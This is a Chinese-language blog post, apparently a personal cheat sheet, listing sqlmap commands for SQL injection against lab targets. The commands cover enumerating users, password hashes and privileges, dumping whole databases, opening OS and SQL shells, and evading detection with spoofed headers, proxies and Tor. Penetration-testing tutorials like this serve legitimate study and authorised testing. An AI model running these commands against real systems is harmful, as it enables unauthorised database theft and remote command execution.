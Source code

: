 ```yaml
---
layout: post
title: "sqlmap常用命令"
description: ""
category: 
tags: [网站安全,python]
---
```

{% include JB/setup %}

###搜集些常用命令可以检测些注入

1、实战mssql
	
	判断注入类型 	python sqlmap.py -u 注入点

	判断当前用户是否是dba 	python sqlmap.py -u 注入点 --is-dba -v 1

	列举数据库用户 	python sqlmap.py -u 注入点 --users -v 0

	列举数据库密码	python sqlmap.py -u 注入点 --passwords -v 0
	
	查看用户权限 	python sqlmap.py -u 注入点 --privileges -v 0

	执行命令	python sqlmap.py -u 注入点 --os-shell		-os-cmd=net user
	

2、基本使用
	
	执行SQL语句・python sqlmap.py -u 注入点 -v 1 --sql-shell

	更详细的信息 python sqlmap.py -u 注入点 -v 5

	POST提交     python sqlmap.py -u 文件路径 --method POST --data 参数

	cookie提交   python sqlmap.py -u 文件路径 --cookie 参数 -v 1

	使用referer欺骗  python sqlmap.py -u 注入点 --referer referer地址 -v 3 

	自定义user-agent 或者使用随机自带的user-agents.txt

		python sqlmap.py -u 注入点 --user-agent "自定义" -v 3
		python sqlmap.py -u 注入点 -v 1 -a "./txt/user-agents.txt"

	使用基本认证  python sqlmap.py -u 注入点 --auth-type Basic --auth-cred "testuser:testpass" -v 3

	使用Digest认证  python sqlmap.py -u 注入点 --auth-type Digest --auth-cred "testuser:testpass" -v 3

	使用代理,配合TOR  python sqlmap.py -u 注入点 --proxy 代理ip

	使用多线程猜解	python sqlmap.py -u 注入点 -v 1 --current-user --threads 3

	绕过动态检测,直接指定有注入点的参数,可以使用,分割多个参数,指定user-agent注入

===================================================================================

页面比较
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --string "luther" -v 1
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --regexp "<td>lu[\w][\w]er" -v 

排除网站的内容
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --excl-reg "Dynamic content: ([\d]+)"

多语句测试，php内嵌函数mysql_query(),不支持多语句
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --stacked-test -v 1


union注入测试
python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --union-test -v 1

unionz注入配合orderby
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_str.php?id=1" --union-test --union-tech orderby -v 1


python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" -v 1 --union-use --banner
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 5 --union-use --current-user
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_partialunion.php?id=1" -v 1 --union-use --dbs

fingerprint
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" -v 1 -f
python sqlmap.py -u "http://192.168.123.36/sqlmap/get_str.asp?name=luther" -v 1 -f -b

判断当前用户是否是dba
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --is-dba -v 1

列举数据库用户
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --users -v 0

列举数据库用户密码
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --passwords -v 0
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --passwords -U sa -v 0


查看用户权限
python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --privileges -v 0
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --privileges -U postgres -v 0

列数据库
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --dbs -v 0

列表的名字
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --tabless -D test -v 0

列出指定数据库指定表的列名
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --columns -T users -D test -v 1

列出指定数据库的指定表的指定列的内容
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --dump -T users -D master -C surname -v 0

指定列的范围从2－4
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --dump -T users -D test --start 2 --stop 4 -v 0

导出所有数据库，所有表的内容
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --dump-all -v 0

只列出用户自己新建的数据库和表的内容
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --dump-all --exclude-sysdbs -v 0

sql query
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --sql-query "SELECT usename FROM pg_user" -v 0
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --sql-query "SELECT host, password FROM mysql.user LIMIT 1, 3" -v 1

SELECT usename, passwd FROM pg_shadow ORDER BY usename

保存和恢复会话
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -b -v 1 -s "sqlmap.log"

保存选项到INC配置文件
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -b -v 1 --save
		
		

